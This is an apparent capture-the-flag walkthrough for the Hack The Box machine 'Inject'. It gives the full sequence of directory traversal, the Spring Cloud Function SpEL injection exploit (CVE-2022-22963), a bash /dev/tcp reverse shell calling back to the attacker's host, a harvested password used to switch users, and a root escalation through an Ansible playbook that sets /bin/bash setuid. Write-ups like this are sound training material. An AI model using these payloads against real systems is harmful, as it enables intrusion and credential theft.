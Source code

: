 <h2> Target: 10.10.11.204 Inject</h2>

<b> Initial Access: </b><br>

Step 1: nmap -Pn -p- --min-rate=5000 10.10.11.204 | grep open | awk -F '/' '{print $1}' | tr '\n' ','  <br>
Nmap shows we have open ports: 22,8080

Step 2: Enumerating these open ports further with nmap: <br>
nmap -Pn --min-rate=5000 10.10.11.204 -p 22,8080 -sC -sV -oN nmap.inject

![image](https://user-images.githubusercontent.com/93153300/233364325-eb4abb27-8252-4c03-ade2-de27c277325e.png)

Step 3: In order to refer to the target by a name instead of a number, add into /etc/hosts file the following line: 10.10.11.204  inject.htb

Step 4: Navigating to port 8080 shows:

![image](https://user-images.githubusercontent.com/93153300/233364387-0ab4561c-0a92-4040-b969-05ece04575aa.png)

Click on ‘Upload’ (top right corner of the site).  The page navigates to http://inject.htb:8080/upload:

![image](https://user-images.githubusercontent.com/93153300/233364442-c18475eb-ec92-402d-afc7-6141181938b0.png)

Step 5: Upload a picture and then click on ‘View your image’.  The page navigates to: http://inject.htb:8080/show_image?img=avatar.jpeg 

Step 6: Capture the request in burp suite and check if we can get directory traversal by replacing ‘avatar.jpeg’ with ‘../../../../../../../etc/passwd’: 

![image](https://user-images.githubusercontent.com/93153300/233364477-6f1db5aa-570a-4720-869b-0f5a57efea9e.png)

We see the directory traversal is successful, as the /etc/passwd file is shown in the response.  

Step 7: Using directory traversal, look around to see what files we have (start simple with just ‘/show_image?img=/../’).  Eventually we find a file called ‘pom.xml’ that says we are using spring framework:

![image](https://user-images.githubusercontent.com/93153300/233364529-4c515266-27a7-4cb9-80b6-db2a40cc62da.png)

Step 8: Google search ‘spring exploit’.  Google shows 2 different spring rce exploits (CVE 2022-22965 and CVE 2022-22963).   In our case, the application is not vulnerable to CVE 22965, but it is vulnerable to CVE 22963.   

*For those interested in understanding how to know which vulnerability is the right one: A little research on google shows that CVE 22965 requires the application to run apache tomcat as a war deployment, while CVE 22963 deals with spring cloud (For further reading: https://www.fastly.com/blog/spring-has-sprung-breaking-down-cve-2022-22963-and-spring4shell-cve-2022 ).  The ‘pom.xml’ file we traversed to mentions spring cloud 3.2.2 (which is a vulnerable version), it does not mention apache tomcat deployed as a war file.  

*Background: The spring cloud rce payload is found on numerous sites.  It works by sending a post request to /functionRouter and adding the header spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("cmd").  Their is a metasploit module for this exploit ‘exploit/multi/http/spring_cloud_function_spel_injection’, I will show the manual way of doing this.  Issuing a reverse shell command doesn’t work, so we will upload a shell to the target and then execute it to get a reverse shell.  

Step 9: Create a file named ‘test’ containing a reverse shell payload:  bash -c "bash -i >& /dev/tcp/10.10.14.101/443 0>&1"

Step 10: Open a python web server: python3 -m http.server 80

Step 11: In burp suite, enter the following and then send the request:

![image](https://user-images.githubusercontent.com/93153300/233364565-28925709-b5bd-4066-8b05-17a915e6b9d3.png)
   
*Ensure you are including the header of content-type: application/json, otherwise it will fail. The status 500 response is expected for this exploit, the command is working.  

Step 12: Change the command in burp suite to ‘chmod 777 /dev/shm/test’ and send the request:

![image](https://user-images.githubusercontent.com/93153300/233364611-7c7956e0-2d22-4796-a34e-e5afa0c6e9a1.png)

Step 13: Open a netcat/pwncat listener to catch the reverse shell: pwncat-cs -lp 443.

Step 14: Change the command in burp suite to ‘/dev/shm/test’ and send the request:

![image](https://user-images.githubusercontent.com/93153300/233364651-5b25f7f0-8de4-454e-9986-e530979b7009.png)

We have shell as user frank:





![image](https://user-images.githubusercontent.com/93153300/233364678-29b93e71-f6e4-4d86-9e82-cd9ddbe59af8.png)
___________________________________________________
<b>Lateral Movement: </b>

Step 1: On the target shell, navigate to the directory of /home/frank and run the command grep -ri password 2>/dev/null

Grep found a password in the file /home/frank/.m2/settings.xml:

![image](https://user-images.githubusercontent.com/93153300/233364750-ded9a3a3-0cc2-4ad1-8d71-bc2d32ee7072.png)

Step 2: Read the file /home/frank/.m2/settings.xml:

![image](https://user-images.githubusercontent.com/93153300/233364793-5266d1a5-0b69-42db-953a-b2927590a010.png)
 
The file contains username phil, password DocPhillovestoInject123 

Step 3: Run the command su phil .  When prompted for the password enter password DocPhillovestoInject123.

We have shell as user phil.  We can get the flag in /home/phil/user.txt.
___________________________________________________
<b>Privilege Escalation:</b>

Step 1: Upload pspy to the target and run pspy. Pspy shows that any .yml file in /opt/automation/tasks will be run by root using ansible:

![image](https://user-images.githubusercontent.com/93153300/233364835-a1c77f9e-9299-456f-af01-758a3e77a0a7.png)

Step 2: Google search ‘ansible privilege escalation’ shows how to create an ansible file to get privilege escalation.  

Step 3: Create a file called test.yml on our pc containing the content below:

- hosts: localhost<br>
  tasks:<br>
    - name: test<br>
      command: chmod 4755 /bin/bash

Step 4: Upload test.yml to the target to the directory /opt/automation/tasks/.  Then wait a few moments for the task to run.  After the task runs we can see that the /bin/bash permissions changed to a suid:

![image](https://user-images.githubusercontent.com/93153300/233364875-28bef604-dd81-4d3c-949f-eb5c6c4dbae5.png)

Step 5: Run /bin/bash -p.  We have shell as root.  We can get the flag in /root/root.txt
